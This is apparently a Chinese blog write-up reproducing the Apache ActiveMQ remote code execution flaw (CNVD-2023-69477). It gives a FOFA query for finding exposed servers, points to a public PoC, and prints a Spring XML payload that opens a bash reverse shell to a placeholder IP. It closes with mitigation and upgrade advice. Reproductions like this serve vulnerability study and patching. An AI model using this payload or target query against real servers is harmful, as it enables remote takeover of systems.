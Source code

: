 
# Apache ActiveMQ RCE 漏洞复现（CNVD-2023-69477）

### 0x01 产品简介

  [ActiveMQ](https://so.csdn.net/so/search?q=ActiveMQ&spm=1001.2101.3001.7020)是一个开源的消息代理和集成模式服务器，它支持 Java 消息服务 (JMS) API。它是 Apache Software Foundation 下的一个项目，用于实现消息中间件，帮助不同的应用程序或系统之间进行通信。

### 0x02 漏洞概述

 Apache ActiveMQ 中存在远程代码执行漏洞，Apache ActiveMQ 在默认安装下开放了 61616 服务端口，而该端口并没有对传入数据进行适当的过滤，从而使攻击者能够构造恶意数据以实现远程代码执行。

### 0x03 影响范围

Apache ActiveMQ < 5.18.3

Apache ActiveMQ < 5.17.6

Apache ActiveMQ < 5.16.7

Apache ActiveMQ < 5.15.16 

### 0x04 复现环境

FOFA：app="APACHE-ActiveMQ" && port="61616"

![b1d19830b3eb42439cf5a379fdb8f821.png](assets/1698896344-a60ed524e71d9d8b6386cefd6307d3c0.png)

### 0x05 漏洞复现

PoC 地址：[https://github.com/trganda/ActiveMQ-RCE](https://github.com/trganda/ActiveMQ-RCE "https://github.com/trganda/ActiveMQ-RCE")

把项目 Get 到本地，导入 IDEA 中运行

![74854985a16d47dfae882dd50decf702.png](assets/1698896344-754c63dfa808a0b1e179883c8ef8d7db.png)

 直接运行会发现报错：java: 警告：源发行版 11 需要目标发行版 11

PS:这种一般是你 idea 的 配置文件 iml 与 项目中 配置的 jdk 版本是不一致导致的

![6cbc9d691fe548ccbca9e68eb61b210d.png](assets/1698896344-df9cf1ffbe0f75f4b2ba39e24e800086.png)

这里需要安装 jdk11，配置项目

![3a5ae44b65144c05bed9c8d823556339.png](assets/1698896344-1ed8523c71408467a21e57ac9cf5632a.png)

 **漏洞利用**

修改 Main.java 以下两处

![f48ef75660ff44cb9caa860d0ee83b35.png](assets/1698896344-3c6a9bd34c170bde0f05592ed7bb8c6b.png)

**反弹 shell** 

将 rce.xml，上传至 vps

```cobol
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[bash -i >& /dev/tcp/your-ip/6666 0>&1]]></value>
          </list>
        </constructor-arg>
    </bean>
```

利用 python 开启 http 服务 

![79b958ad02784db9a00e76e8ee75a551.png](assets/1698896344-04047623af38bfd37a5df8e8833a3ace.png)

nc 开启监听

![7d5fea03fec84a4b84b45b84922c4465.png](assets/1698896344-2f54dfe81d4a03e50e97f5c13c562390.png)

运行 Main.java

![499c87a5b2c54c4997bf538ca9a717cf.png](assets/1698896344-c6a44a03c23e11bf05d0e26266c0e7d4.png)

成功反弹 shell

![2618ec354d534345bbf22d0d8b813d8b.png](assets/1698896344-3955620b4068a2f0bf4e6820fdba4ed9.png)

### ![2adaf923474647acbfcde701749e153f.png](assets/1698896344-c86b60159ad981760d558468359e6df2.png)

### 0x06 修复建议 

**临时缓解方案**

通过网络 ACL 策略限制访问来源，例如只允许来自特定 IP 地址或地址段的访问请求。

**升级修复方案**

目前官方已通过限制反序列化类只能为 Throwable 的子类的方式来修复此漏洞。建议受影响用户可以更新到：

Apache ActiveMQ >= 5.18.3

Apache ActiveMQ >= 5.17.6

Apache ActiveMQ >= 5.16.7

Apache ActiveMQ >= 5.15.16

https://github.com/apache/activemq/tags
